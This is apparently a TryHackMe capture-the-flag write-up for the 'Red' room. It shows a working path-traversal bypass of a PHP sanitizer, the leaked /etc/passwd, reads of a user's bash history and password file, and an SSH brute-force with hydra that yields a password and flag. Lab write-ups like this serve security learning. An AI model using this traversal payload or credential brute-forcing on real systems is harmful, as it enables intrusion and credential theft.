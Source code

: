 # RED

#### 1. Accessing `view-source:http://10.10.87.149//index.php?page=index.php` using `Burpsuite Repeater`
#### what resulted with this:
```bash
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

#### 2. After analysing above code i get this conclusion:
- What we initially have:
```bash
../../etc/passwd
```
- After analysing `sanitize_input()` function i understand i have to do this:
```bash
.....///.....///.....///.....///etc/passwd
```
- Then we have condition that before whole string there must be word that is made of only small letters, we take `about` directory as consideration
```bash
about/.....///.....///.....///.....///etc/passwd
```
#### 3. Now we pass that to `Burpsuite Repeater` again:
- We change `page` parameter and send:
```bash
GET //index.php?page=about/.....///.....///.....///.....///etc/passwd HTTP/1.1
Host: 10.10.87.149
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.87.149//index.php?page=portfolio.html
Connection: close
Upgrade-Insecure-Requests: 1
```

#### 4. And we in! That is the output:
```bash
HTTP/1.1 200 OK
Date: Wed, 18 Oct 2023 20:54:09 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1858
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```

#### 5. Then we do a little searching up:
- Checking /home/blue/.bash_history directory (`about/.....///.....///.....///.....///home/blue/.bash_history`), as results:
```bash
HTTP/1.1 200 OK
Date: Wed, 18 Oct 2023 20:58:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 166
Connection: close
Content-Type: text/html; charset=UTF-8

echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```
##### We can tell that blue was doing something here.... Especially, there is interesting point about `.reminder` file.. We should check that

- Checking /home/blue/.reminder what results:
```bash
HTTP/1.1 200 OK
Date: Wed, 18 Oct 2023 21:00:24 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 16
Connection: close
Content-Type: text/html; charset=UTF-8

sup3r_p@s$w0rd!
```
#### 6. We may get password here! let's repeat steps that blue did on this machine, and then try `hydra` with username `blue`:
```bash
hydra -l blue -P passlist.txt 10.10.87.149 ssh -t 16
```

##### We have it! Let's login with `ssh`
```bash
[22][ssh] host: 10.10.87.149   login: blue   password: thesup3r_p@s$w0rd!
```

##### We have first flag:
`THM{Is_thAt_all_y0u_can_d0_blU3?}`

#### 7. Now we need to find the second, and third...
